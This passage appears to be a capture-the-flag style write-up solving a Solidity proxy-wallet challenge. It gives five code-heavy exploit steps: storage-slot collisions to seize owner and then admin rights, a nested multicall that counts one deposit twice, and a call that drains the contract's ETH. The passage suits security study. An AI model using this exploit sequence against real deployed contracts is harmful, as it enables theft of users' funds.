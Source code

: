 ### Step 1: Become Owner (Storage Collision)

```solidity
// Call on proxy
proxy.proposeNewAdmin(attackerAddress);

// This writes: proxy.pendingAdmin = attackerAddress (slot 0)
// But slot 0 is also wallet.owner!
// Result: wallet.owner = attackerAddress ✓
```

### Step 2: Whitelist Ourselves

```solidity
// Now we're the owner, so we can whitelist ourselves
wallet.addToWhitelist(attackerAddress);
```

### Step 3: Inflate Balance (Multicall Vulnerability)

```solidity
// Prepare nested multicall
bytes[] memory innerData = new bytes[](1);
innerData[0] = abi.encodeWithSelector(wallet.deposit.selector);

bytes[] memory outerData = new bytes[](2);
outerData[0] = abi.encodeWithSelector(wallet.deposit.selector);
outerData[1] = abi.encodeWithSelector(wallet.multicall.selector, innerData);

// Execute with 0.001 ETH
wallet.multicall{value: 0.001 ether}(outerData);

// Result:
// - balances[attacker] = 0.002 ETH
// - contract balance = 0.001 ETH
```

### Step 4: Drain Contract

```solidity
// We have 0.002 ETH internally but contract only has 0.001 ETH (or more from initial setup)
uint256 contractBalance = address(proxy).balance;
wallet.execute(attackerAddress, contractBalance, "");

// Result: contract balance = 0
```

### Step 5: Become Admin (Storage Collision Again)

```solidity
// setMaxBalance requires contract balance == 0 ✓
wallet.setMaxBalance(uint256(uint160(attackerAddress)));

// This writes: wallet.maxBalance = attackerAddress (slot 1)
// But slot 1 is also proxy.admin!
// Result: proxy.admin = attackerAddress ✓
```
